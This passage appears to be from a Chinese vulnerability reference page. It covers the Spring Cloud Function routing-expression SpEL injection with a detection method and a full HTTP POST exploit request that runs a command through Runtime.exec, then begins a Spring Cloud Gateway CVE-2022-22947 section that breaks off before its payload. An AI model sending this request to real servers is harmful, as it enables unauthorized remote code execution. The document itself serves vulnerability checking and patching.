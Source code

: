   ###### 3.2.3

- #### 排查方法：

  ###### 检查lib目录或pom中的Function组件版本是否在漏洞版本中，且应用中使用Function

- #### 漏洞利用：

  ###### 网上有些帖子说需要利用的前置条件是配置spring.cloud.function.definition=functionRouter。我用默认配置也同样能执行命令，这块有懂的可以说下。

  ###### 命令执行：

  ```
  POST /functionRouter HTTP/1.1
  Host: localhost:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  Connection: close
  spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
  Content-Type: text/plain
  Content-Length: 4
  
  test
  ```

  ![image-20220428105937657](https://user-images.githubusercontent.com/33454436/166195416-ca7427bb-64e2-44e8-99f8-583637875fb6.png)

- #### 缓解措施：

  ###### 无。

------

# Spring Cloud Gateway-CVE-2022-22947 远程代码执行

- #### 影响版本

  ###### Spring Cloud Gateway 3.1.0、3.0.0 to 3.0.6、以及更早的不受支持的版本

- #### 安全版本

  ###### Spring Cloud Gateway升级到3.11及以上或3.0.7及以上

- #### 排查方法

  ###### 检查lib目录或pom中的Gateway组件版本是否在漏洞版本中

- #### 漏洞利用

  ###### 命令执行：
